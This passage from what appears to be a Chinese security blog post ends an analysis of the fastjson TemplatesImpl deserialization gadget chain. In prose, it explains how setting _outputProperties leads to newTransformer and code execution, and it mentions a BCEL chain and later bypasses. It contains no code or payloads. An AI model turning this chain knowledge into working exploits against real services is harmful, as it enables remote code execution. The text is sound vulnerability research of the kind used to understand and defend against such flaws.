4. 设置`_outputProperties`的值，因为该字段只有`getter`方法，所以是`getOnly=true`的，所以会调用`getOutputProperties`，从而触发`newTransformer`方法，从而导致执行恶意代码

感觉`TemplatesImpl`这条链真的太太太巧合了，不过利用的话会有一些限制，毕竟必须要设置`Feature.SupportNonPublicField`。

## 总结

如果想要搞懂`fastjson`核心的逻辑的话，还是非常复杂的，因为`fastjson`提供了非常灵活非常强大的功能，想要琢磨透这些功能，则需要静下心来一点点debug。不过也正是因为`fastjson`非常复杂同时非常强大，这也导致了开发容易疏忽，从而导致一些漏洞的产生。

实际上`fastjson`还有很多非常好玩的利用方式，其中还有一条`BCEL`的不出网利用链。以及后续版本`fastjson`的一些修复方法和绕过，这些`'攻防对抗'`总体来说是非常好玩的。因为本篇已经非常长了，所以就不再写了，我准备再开一篇文章来聊一聊，我们下一篇`fastjson`再见！